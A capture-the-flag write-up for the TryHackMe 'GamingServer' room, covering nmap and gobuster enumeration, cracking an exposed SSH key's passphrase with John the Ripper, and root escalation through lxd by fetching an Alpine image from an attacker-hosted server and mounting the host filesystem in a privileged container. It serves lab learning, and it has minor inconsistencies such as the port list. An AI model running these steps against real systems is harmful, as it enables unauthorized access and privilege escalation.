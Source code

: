 ```yaml
---
title: 'TryHackMe: GamingServer'
author: batu7x
categories: [TryHackMe CTFs]
tags: [web, gobuster, dir, fuzz, ssh, john, lxd]
render_with_liquid: false
media_subpath: /images/tryhackme_gamingserver/
image:
  path: room1.webp
---
```


**Difficulty level: Easy** In this CTF we will crack ssh passphrases, bruteforce directories with gobuster and privilege escalation with lxd linux container.

## Enumeration

### Nmap Scan

```console
$ sudo nmap -Pn -sC -sV -vv -A $MACHINE_IP
22/tcp open ssh syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) Lets start our ctf with an nmap
| ssh-hostkey:
2048 34:0e:fe:06:12:67:3e: a4:eb:ab:7a: c4:81:6d:fe: a9 (RSA) 
49:61:1e:f4:52:6e:7b:29:98: db:30:2d:16:ed: f4:8b (ECDSA)
b8:60:c4:5b:b7: b2: d0:23:a0:c7:56:59:5c:63:1e: c4 (ED25519)
80/tcp open http syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu)) I_http-title: House of danak
|_http-title: House of danak
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods:
  Supported Methods: GET POST OPTIONS HEAD
Device type: general purpose
Running: Linux 4.X
```

Port **80** & **20** are open, its ssh & http.

## Website

Firstly Lets check the website working on port 80.

The website looks like a simple static website. We will check the source of index.html

![gobuster](gobuster0.webp){: width="1200" height="600" }

There is a possible username (**john**) in the source of index.html, lets note this.

### Directory Brute-force

Bruteforcing directories is the next move. We can use gobuster & common directory wordlist for bruteforce.

```console
$ gobuster dir -u http://$MACHINE_IP -w /usr/share/wordlists/dirb/common.txt
```

![gobuster1](gobuster1.webp){: width="1200" height="600" }

Lets check this directories:

`/robots.txt`

```console
user-agent: *
Allow: /
/uploads/
```

`/secret` 

In **/secret** directory there is an private ssh key we will use JohnTheRipper to crack this ssh key’s passphrase.

`/uploads`

In **/uploads** directory we got 3 files a wordlist, just a normal manifesto and meme.jpg file. Steghide asks a passphrase for meme.jpg

### John The Ripper

Now we will crack the private key’s passphrase with the wordlist they gave us in /uploads directory.

First we need to use ssh2john to get a format that john can crack it


```console
$ ssh2john sshkey > hash.txt
```

After we got hash.txt lets use the wordlists they gave us to crack it.

```console
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

We cracked the hash, got our passphrase now lets use the ssh key & passphrase.

## Flags

### User Flag

```console
$ ssh -i sshkey john@$MACHINE_IP
```

![gobuster2](gobuster2.webp){: width="1200" height="600" }

We are in, we can see our user flag in the home directory!

### Root Flag

Now we need to privilege escalation for root.txt

```console
$ id
uid=1000(john) gid=1000(john) groups=1000(john), 4(adm), 24(cdrom), 27(sudo), 30(dip), 46(plugdev), 108(lxd)
```

Our id is a member of `lxd` group which is a linux container. Now we will use lxd vulnerability to get root. 

We should download alphine builder on attacker machine for mount it using lxd.

```console
$ git clone https://github.com/saghul/lxd-alpine-builder.git cd lxd-alphin Cloning into 'lxd-alpine-builder'.

...

$ cd lxd-alpine-builder

$ sudo ./build-alpine

...
```

We need to copy this file from attacker machine to target machine. Use this command on attacker machine:

```console
$ python -m http.server 9999
```

On the target machine:

```console
$ wget http://$ATTACKERIP:9999/alpine-v3.13-x86_64–20210218_0139.tar.gz
```

Now on the target machine again, we will add the file to lxd:

```console
$ lxc image import ./alpine-v3.13-x86_64–20210218_0139.tar.gz — alias myimage

$ lxc init myimage ignite -c security.privileged=true

$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true

$ lxc start ignite
```

After this commands, we will execute the /bin/sh to get root access.

```console
$ lxc exec ignite /bin/sh
```

![gobuster3](gobuster3.webp){: width="1200" height="600" }

We got root shell right now. Root Flag Located at /mnt/root/root/root.txt

Thanks for reading my write up, never give up on ctfs!

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}

</style>